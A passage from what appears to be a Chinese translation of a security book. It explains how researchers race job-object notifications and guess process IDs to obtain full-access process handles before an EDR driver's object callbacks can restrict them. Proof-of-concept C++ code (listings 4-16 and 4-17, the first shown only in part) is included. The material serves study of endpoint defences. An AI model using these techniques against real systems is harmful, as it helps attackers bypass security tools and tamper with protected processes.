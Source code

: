 ```
        }

 ❸ } while (GetQueuedCompletionStatus(
        *hIoCompletionPort,
        &dwBytes,
        &lpKey,
        &lpOverlapped,
        INFINITE));
}
```

列表 4-16：打开新进程句柄

在此函数中，我们首先在一个<samp class="SANS_TheSansMonoCd_W5Regular_11">do…while</samp>循环❸中检查 I/O 完成端口。如果我们看到作为已完成操作一部分的字节已经传输，我们就会打开返回的 PID ❶的新句柄，请求完全权限（换句话说，<samp class="SANS_TheSansMonoCd_W5Regular_11">PROCESS_ALL_ACCESS</samp>）。如果我们收到了句柄，我们会检查其映像名称❷。真正的恶意软件会对这个句柄执行某些操作，比如读取内存或终止进程，但在这里我们只是打印一些关于它的信息。

该技术之所以有效，是因为作业对象的通知发生在内核中的对象回调通知之前。在他们的论文中，研究人员测量了进程创建与对象回调通知之间的时间，约为 8.75–14.5 毫秒。这意味着，如果在通知传递给驱动程序之前请求句柄，攻击者可以获得一个完全特权的句柄，而不是一个被驱动程序更改了访问掩码的句柄。

#### <samp class="SANS_Futura_Std_Bold_Condensed_B_11">猜测目标进程的 PID</samp>

论文中描述的第二种技术尝试预测目标进程的 PID。通过从潜在 PID 列表中移除所有已知的 PID 和线程 ID（TID），作者们展示了更高效地猜测目标进程 PID 的可能性。为了演示这一点，他们创建了一个名为*hThemAll.cpp*的概念验证程序。该工具的核心是内部函数<samp class="SANS_TheSansMonoCd_W5Regular_11">OpenProcessThemAll()</samp>，如列表 4-17 所示，程序通过四个并发线程执行该函数来打开进程句柄。

```
void OpenProcessThemAll(
    const DWORD dwBasePid,
    const DWORD dwNbrPids,
    std::list<HANDLE>* lhProcesses,
    const std::vector<DWORD>* vdwExistingPids)
{
    std::list<DWORD> pids;
    for (auto i(0); i < dwNbrPids; i += 4)
        if (!std::binary_search(
            vdwExistingPids->begin(),
            vdwExistingPids->end(),
            dwBasePid + i))
        {
            pids.push_back(dwBasePid + i);
        }

    while (!bJoinThreads) {
        for (auto it = pids.begin(); it != pids.end(); ++it)
        {
          ❶ if (const auto hProcess = OpenProcess(
                DESIRED_ACCESS,
                DESIRED_INHERITANCE,
                *it))
            {
                  EnterCriticalSection(&criticalSection);
                ❷ lhProcesses->push_back(hProcess);
                  LeaveCriticalSection(&criticalSection);
                  pids.erase(it);
            }
        }
    }
}
```

